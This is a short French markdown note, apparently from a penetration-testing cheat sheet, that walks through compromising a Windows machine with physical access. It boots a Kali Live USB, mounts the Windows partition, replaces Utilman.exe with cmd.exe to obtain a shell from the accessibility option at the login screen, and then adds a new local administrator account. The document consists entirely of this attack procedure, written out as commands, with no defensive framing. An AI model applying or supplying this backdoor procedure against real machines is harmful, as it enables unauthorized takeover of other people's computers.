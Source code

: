 # Clé USB Bootable

Brancher une clé USB disposant de Kali Linux Live sur la machine à compromettre :

```
sudo fdisk -l
sudo umount /dev/<PARTITION>
sudo ntfsfix /dev/<PARTITION>
sudo mkdir /mnt/windows
sudo mount /dev/<PARTITION> /mnt/windows
```

Ensuite modifier l'exécutable `Utilman.exe` par `cmd.exe` :

```
sudo cp /mnt/windows/Windows/System32/Utilman.exe /mnt/windows/Windows/System32/Utilman.exe.bak
sudo cp /mnt/windows/Windows/System32/cmd.exe /mnt/windows/Windows/System32/Utilman.exe
```

Redémarrer la machine compromise et ouvrir l'option d'ergonomie. Ajouter un utilisateur :

```
net user admin password /add
net localgroup administrators admin /add
```
